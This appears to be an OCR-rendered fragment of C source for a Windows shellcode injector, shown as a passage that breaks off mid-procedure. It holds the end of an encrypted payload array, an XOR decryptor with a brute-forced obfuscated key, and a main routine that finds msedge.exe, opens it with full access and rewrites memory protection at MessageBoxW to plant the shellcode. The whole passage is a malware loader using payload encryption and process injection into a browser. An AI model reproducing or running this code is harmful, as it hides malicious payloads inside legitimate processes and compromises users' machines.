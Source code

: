 ```
        0x2D,0x7B,0x59,0x04,0x91,0xFA,0xAC,0xF0,0x89,0xBD,0xBD,0x6E,0xE8,0x43,0x8E,0x67,
        0x73,0x62,0xBA,0x03,0x39,0xEA,0x3F,0x1D,0xD9,0xCF,0x9E,0x2F,0xA3,0x17,0x11,0xB8,
        0xA9,0x17,0x3B,0xF3,0x14,0x80,0x1E,0x61,0x66,0x53,0xAC,0xBA,0xB0,0xA3,0x5F,0xFD,
        0x98,0x1C,0x96,0xEA,0x12,0x7A,0x77,0xAB,0x5F,0x3C,0xF6,0xD1,0x4E,0x49,0x8C,0x10,
        0xB4,0x93,0xB1,0x8A,0x6F,0x5D,0x34,0xAF,0x57,0xE9,0x82,0xC0,0x21,0x35,0xDB,0xB1,
        0x06,0x23,0x4D,0x15,0xAA,0x0E,0xB8,0x01,0xF3,0xB7,0xCD,0xED,0x47,0x33,0x87,0x17,
        0x5E,0x5A,0xB2,0xE8
};

VOID Xor(PBYTE pData, SIZE_T SizeOfData, PBYTE pKey, SIZE_T SizeOfKey) {
    for (int i = 0, j = 0; i < SizeOfData; i++, j++) {
        if (j >= SizeOfKey) {
            j = 0;
        }
        pData[i] = pData[i] ^ pKey[j];
    }
}

PBYTE DecryptKey(BYTE HintByte, PBYTE EncryptedKey, SIZE_T KeySize) {
    BYTE  KeyByte = 0;
    PBYTE OriginalKey = malloc(KeySize);
    if (!OriginalKey) { return NULL; }
    while (TRUE) { if (((EncryptedKey[0] ^ KeyByte) - 0) == HintByte) { break; } else { KeyByte++; } }
    for (int i = 0; i < KeySize; i++) {
        OriginalKey[i] = (BYTE)((EncryptedKey[i] ^ KeyByte) - i);
    }
    return OriginalKey;
}

int main()
{
    PROCESSENTRY32W Process          = { .dwSize = sizeof(PROCESSENTRY32) };
    DWORD           dwOldProtection  = 0,
                    dwThreadId       = 0;
    SIZE_T          BytesWritten     = 0;
    PBYTE           pbTargetFunction = &MessageBoxW,
                    pbDecryptedKey   = 0;
    HANDLE          hSnapshot        = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0),
                    hProcess         = 0,   
                    hThread          = 0;
    BOOL            Found            = FALSE;

    printf("Searching for msedge.exe, standby...\n");
    if (hSnapshot)
    {
        if (Process32First(hSnapshot, &Process))
        {
            while (Process32Next(hSnapshot, &Process))
            {
                if (wcscmp(L"msedge.exe", Process.szExeFile) == 0)
                {
                    printf("Found microsoft edge at pid [ %d ]. Starting injection procedure.\n", Process.th32ProcessID);
                    Found = TRUE;
                    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Process.th32ProcessID);
                    if (hProcess)
                    {
                        if (VirtualProtectEx(hProcess, pbTargetFunction, sizeof(shellcode), PAGE_READWRITE, &dwOldProtection))
                        {
                            printf("Set memory protection for range 0x%p - 0x%p [%lld bytes] to PAGE_READWRITE\n", pbTargetFunction, (pbTargetFunction + sizeof(shellcode)), sizeof(shellcode));
```